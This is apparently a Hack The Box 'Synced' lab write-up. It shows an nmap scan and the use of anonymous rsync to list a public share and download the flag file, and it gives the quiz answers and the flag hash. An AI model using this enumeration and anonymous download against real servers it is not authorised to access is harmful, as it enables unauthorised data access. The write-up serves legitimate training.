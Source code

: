 ```yaml
---
title: "[HTB] Synced"
author: "Wook Lee"
date: "2024-07-11"
tags: ["Hack The Box"]
---
```


#### What is the default port for rsync?

```
873
```

<br>

#### How many TCP ports are open on the remote host?

```
1
```

As always, started off by running the nmap scan on all ports and turned out there is only 1 open port on 873 and it's `rsync`.

```shell
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.28]─[leewookb@htb-wv2b0ymwtt]─[~]
└──╼ [★]$ nmap -sC -sV 10.129.49.240 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-11 12:14 CDT
Nmap scan report for 10.129.49.240
Host is up (0.0092s latency).
Not shown: 65534 closed tcp ports (reset)
PORT STATE SERVICE VERSION
873/tcp open rsync (protocol version 31)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.33 seconds
```

<br>

#### What is the protocol version used by rsync on the remote machine?

```
31
```

<br>

#### What is the most common command name on Linux to interact with rsync?

```
rsync
```

**rsync** is an open source utility that provides fast incremental file transfer. The way rsync works makes it an excellent choice when there is a need to synchronize files between a computer and a storage drive and across networked computers.

<br>

#### What credentials do you have to pass to rsync in order to use anonymous authentication? anonymous:anonymous, anonymous, None, rsync:rsync

```
None
```

<br>

#### What is the option to only list shares and files on rsync? (No need to include the leading --characters)

```
list-only
```

![alt text](image.png#center)

<br>

#### Submit root flag

```
72eaf5344ebb84908ae543a719830519
```

The generic syntax used by `rsync` is the following:

```
rsync [OPTION] ... [USER@]HOST::SRC [DEST]
```

where SRC is the file or directory to copy from, DEST is the file or directory to copy to, and square brackets indicate optional parameters.

The `[USER@]` optional parameter is used when we want to access the remote machine in an authetnicated way. In this case, we don't have any valid credentials so we will omit this portion and try an anonymous authentication.

`rsync --list-only 10.129.49.240::`

```shell
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.28]─[leewookb@htb-wv2b0ymwtt]─[~]
└──╼ [★]$ rsync --list-only 10.129.49.240::
public         	Anonymous Share
```

<br>

Notice there is a public directory with the description, Anonymous Share.
Let's navigate to public directory

```shell
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.28]─[leewookb@htb-wv2b0ymwtt]─[~]
└──╼ [★]$ rsync --list-only 10.129.49.240::public
drwxr-xr-x          4,096 2022/10/24 17:02:23 .
-rw-r--r--             33 2022/10/24 16:32:03 flag.txt
```

<br>

okay we see there's the `flag.txt` file. Now let's copy this file to our local machine.
When downloading the file to our local machine, make sure to remove the **_--list-only_** option and specify the destination.

`rsync [OPTION] ... [USER@]HOST::SRC [DEST]`

```shell
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.28]─[leewookb@htb-wv2b0ymwtt]─[~/Desktop]
└──╼ [★]$ rsync 10.129.49.240::public/flag.txt flag.txt
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.28]─[leewookb@htb-wv2b0ymwtt]─[~/Desktop]
└──╼ [★]$ ls
flag.txt  htb_vpn_logs.log  my_credentials.txt  my_data  README.license
┌─[us-starting-point-vip-1-dhcp]─[10.10.14.28]─[leewookb@htb-wv2b0ymwtt]─[~/Desktop]
└──╼ [★]$ cat flag.txt
72eaf5344ebb84908ae543a719830519
```

<br>

![alt text](image-1.png#center)
